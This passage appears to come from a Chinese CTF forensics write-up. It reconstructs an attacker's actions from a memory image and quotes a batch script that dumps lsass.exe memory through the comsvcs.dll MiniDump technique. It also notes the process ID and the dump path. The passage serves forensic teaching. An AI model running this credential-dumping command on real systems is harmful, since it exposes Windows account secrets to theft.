```batch

rundll32.exe comsvcs.dll, MiniDump %PID% %OUTPUT% full

if exist "%OUTPUT%" (
    echo [✓] 成功导出 lsass 内存为: %OUTPUT%
) else (
    echo [!] 导出失败，可能权限不足。
)

pause
```

题中提及的“重要程序”即为 `lsass.exe`。

考虑到无法访问到远程服务器，而使用蚁剑终端执行的命令回显可能仍在内存中，使用十六进制编辑器直接打开内存文件搜索 `lsass`，便可发现该脚本的输出：

![](img/07/sword-dump.png)

`lsass.exe` 的 PID 为 `456`，转储保存在 `C:\phpstudy_pro\WWW\lsass.dmp`。

## 应急大师

### 1. 隐藏用户
